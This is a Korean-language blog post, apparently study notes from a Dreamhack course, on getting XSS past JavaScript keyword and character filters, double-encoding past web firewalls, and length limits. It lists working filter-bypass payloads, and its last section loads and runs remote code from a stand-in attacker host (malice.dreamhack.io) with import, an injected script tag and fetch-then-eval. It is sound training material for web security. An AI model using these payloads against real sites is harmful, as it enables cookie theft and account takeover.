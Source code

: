 ```yaml
---
layout : single
title : "[Dreamhack] STAGE2. XSS Filtering Bypass (2)"
categories: web-hacking-advanced
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# Web Hacking Advanced(Client Side) - XSS Filtering Bypass

- [x] 자바스크립트 함수 및 키워드 필터링
- [x] 디코딩 전 필터링, 길이 제한

## Exploit Tech : XSS Filtering Bypass - 2

### 자바스크립트 함수 및 키워드 필터링

js는 Unicode escape sequence와 Computed member access를 지원한다. 

Unicode escape sequence : "\uAC00" == "가"와 같이 문자열에서 유니코드 문자를 코드포인트로 나타낼 수 있는 표기법

```javascript
var foo = "\u0063ookie";  // cookie
var bar = "cooki\x65";  // cookie
\u0061lert(document.cookie);  // alert(document.cookie)
```

Computed member access : 객체의 특성 속성에 접근할 때 속성 이름을 동적으로 계산하는 기능 ("coo"+"kie" = "cookie")

```javascript
alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)
window['al\x65rt'](document["\u0063ook" + "ie"]);  // alert(document.cookie)
```

따라서, XSS 공격 구문의 자바스크립트 키워드를 필터링한 경우, 우회할 수 있는 방법이 매우 다양하다. 

|구문|대체구문|
|:---|:---|
|alert, XMLHttpRequest 등 문서 최상위 객체 및 함수|window['al'+'ert'], window['XMLHtt'+'pRequest'] 등 이름 끊어서 쓰기|
|window|self, this|
|eval(code)|Function(code)()|
|Function|isNaN['constr'+'uctor'] 등 함수의 constructor 속성 접근|

극단적인 경우, js의 언어적 틀성을 활용하여 6개의 문자 (,),[,],!,+ 만으로 모든 동작을 수행할 수 있다. 이 기법은 cookie와 같이 기존 xss 필터링에서 주로 탐지하는 단어들을 언급하지 않아도 된다는 장점이 있으나, 공격구문의 길이가 늘어난다는 단점이 존재한다.

---

필터링 혹은 인코딩/디코딩 등의 이유로 특정 문자 ((),[],",') 가 제한당한 경우

##### 문자열 선언

1) Template Literals

문자열을 사용할 때 필요한 ", '가 필터링되어있다면, 템플릿 리터럴을 사용할 수 있다. 템플릿 리터럴은 내장된 표현식을 허용하는 문자열 리터럴이며, 여러 줄로 이루어진 문자열과 문자를 보관하기 위한 기능으로 이용할 수 있다. 템플릿 리터럴은 `을 사용하여 선언할 수 있으며, 내장된 ${}표현식을 이용해 다른 변수나 식을 사용할 수 있다.

```javascript
var foo = "Hello";
var bar = "World";
var baz = `${foo},
${bar} ${1+1}.`; // "Hello,\nWorld 2."
```

2) RegExp 객체

/Hello World!/ 형태로 RegExp 객체를 생성하고 객체의 패턴을 가져옴으로서 문자열을 생성

```javascript
var foo = /Hello World!/.source;  // "Hello World!"
var bar = /test !/ + [];  // "/test !/"
```

3) String.fromCharCode

String.fromCharCode는 유니코드의 범위 중 파라미터로 전달된 수에 해당하는 문자를 반환

```javascript
var foo = String.fromCharCode(72, 101, 108, 108, 111);  // "Hello"
```

4) 기본 내장함수, 객체의 문자 사용

원하는 문자열을 만드는 데 필요한 문자들을 내장함수 또는 객체로부터 한 글자씩 가져와 문자열을 만들 수 있다

```javascript
var baz = history.toString()[8] + // "H"
(history+[])[9] + // "i"
(URL+0)[12] + // "("
(URL+0)[13]; // ")" ==> "Hi()"
```

\* history.toString() -> "[object History]" / URL.toString() -> "function URL() { [native code] }" , history+[]; history+0; 와 같이 함수나 객체와 산술 연산을 수행하게 되면 연산을 위해 객체 내부적으로 toString 함수를 호출해 문자열로 변환한 후에 연산을 수행한다. 

5) 숫자 객체의 진법 변환

10진수 숫자를 36진수로 변경하여 아스키 영어 소문자 범위를 모두 생성할 수 있다. 이 때 E4X 연산자 ("..") 를 사용하며, 주로 점 2개를 사용하거나, 소수점으로 인식되지 않도록 공백과 점을 조합하여 사용한다

```javascript
var foo = 29234652..toString(36); // "hello"
var bar = 29234652 .toString(36); // "hello"
```

##### 함수 호출

일반적으로 자바스크립트의 함수를 호출하기 위해서는 소괄호 또는 백틱을 사용해야한다

```javascript
alert(1); // Parentheses
alert`1`; // Tagged Templates
```

소괄호와 백틱문자가 모두 필터링되어 있는 경우

1) javascript 스키마를 이용한 location 변경

javascript: 스키마를 이용하면 URL을 이용해 자바스크립트 코드를 실행시킬 수 있다. 이를 이용해 현재 location 객체를 변조하는 방식으로 자바스크립트 코드를 실행하는 것이 가능하다. 

```javascript
location="javascript:alert\x28document.domain\x29;";
location.href="javascript:alert\u0028document.domain\u0029;";
location['href']="javascript:alert\050document.domain\051;";
```

2) Symbol.hasInstance 오버라이딩

자바스크립트에서는 문자열 이외에도 ECMAScript 6에서 추가된 Symbol 또한 속성의 명칭으로 사용할 수 있다. Symbol.hasInstance well-known symbol을 이용하면, instanceof 연산자를 오버라이드 할 수 있다. 즉, 0 instanceof C를 연산할 때 C에 Symbol.hasInstance 속성에 함수가 있을 경우 메소드로 호출하여 instanceof 연산자의 결과값으로 사용하게 된다. 이 특성을 이용해 instanceof를 연산하게 되면, 실제 인스턴스 체크 대신 원하는 함수를 메소드로 호출되도록 할 수 있다. 

```javascript
"alert\x28document.domain\x29"instanceof{[Symbol.hasInstance]:eval};
Array.prototype[Symbol.hasInstance]=eval;"alert\x28document.domain\x29"instanceof[];
```

3) document.body.innerHTML 추가

document.body.innerHTML 을 통해 HTML 코드를 문서에 추가하여, 이를 통해 자바스크립트를 실행할 수 있다. (script 태그 사용 불가 / 이벤트 핸들러 사용)

```javascript
document.body.innerHTML+="<img src=x: onerror=alert&#40;1&#41;>";
document.body.innerHTML+="<body src=x: onload=alert&#40;1&#41;>";
```

### 디코딩 전 필터링

본래 입력 검증은 디코딩과 같은 모든 전처리 작업을 마치고 수행된다. 예를 들어, 클라이언트의 요청이 웹 방화벽을 거쳐 애플리케이션으로 전달되는 웹 서버의 경우, 웹 방화벽은 요청을 검증해서 XSS 공격 코드를 차단한다. 애플리케이션은 웹 방화벽을 통과한 데이터를 받아 작업을 수행한다. 이 때 애플리케이션은 전달받은 데이터를 다시 디코딩해서 사용하면 안 된다. (공격자가 더블 인코딩으로 웹 방화벽의 검증을 우회할 수 있기 때문)

\* 더블 인코딩 : 보안 제어를 무시하거나, 응용 프로그램에서 예기치 않은 동작을 일으키기 위해 매개변수를 16진수 형식으로 2번 인코딩하는 것으로, 사용자 입력을 한 번만 디코딩하는 보안 필터를 무시한다. 

1. 공격자가 더블 URL 인코딩한 공격 코드 %253Cscript%253E(이하 생략)를 포함하여 게시글 업로드 요청
2. 웹 방화벽이 해당 데이터를 디코딩 후 검증 -> 디코딩 결과인 %3Cscript%3E(이하 생략)는 안전하다고 판단하여 차단하지 않고 애플리케이션에 전달
3. 애플리케이션이 해당 데이터를 또 디코딩하여 < script >(이하 생략)를 게시판 DB에 저장합니다. (검증 후 디코딩 발생)️
4. 해당 게시글을 읽으면 XSS가 발생하여 악성 자바스크립트 코드가 실행

이처럼 웹 방화벽의 검증 이후 다시 디코딩할 경우, 공격자는 더블 URL 인코딩으로 웹 방화벽 검증을 우회할 수 있다. 뿐만 아니라, 애플리케이션 내부의 검증 로직 이후에도 디코딩을 하면 안 되며, 만약 php 애플리케이션 코드에 더블 디코딩 취약점이 존재하면, 더블 URL 인코딩을 이용해 우회하는 것이 가능하다.

```http
POST /search?query=%253Cscript%253Ealert(document.cookie)%253C/script%253E HTTP/1.1
...
-----
HTTP/1.1 200 OK
<h1>Search results for: <script>alert(document.cookie)</script></h1>
```

### 길이 제한

삽입할 수 있는 코드의 길이가 제한되어 있는 경우, 다른 경로로 실행할 추가적인 코드를 URL fragment 등으로 삽입 후 삽입 지점에는 본 코드를 실행하는 짧은 코드를 사용할 수 있다. Fragment로 스크립트를 넘겨준 후 XSS 지점에서 location.hash로 URL의 Fragment 부분을 추출하여 eval()로 샐행하는 기법이 흔히 쓰인다. 그 외에도, 쿠키에 페이로드를 저장하는 방식과 import 와 같은 외부 자원을 스크립트로 로드하는 방법 또한 사용할 수 있다. 

1) location.hash

```
https://example.com/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie); 
```

2) 외부 자원

```javascript
import("http://malice.dreamhack.io");
```

```javascript
var e = document.createElement('script')
e.src='http://malice.dreamhack.io';
document.appendChild(e);
```

```javascript
fetch('http://malice.dreamhack.io').then(x=>eval(x.text()))
```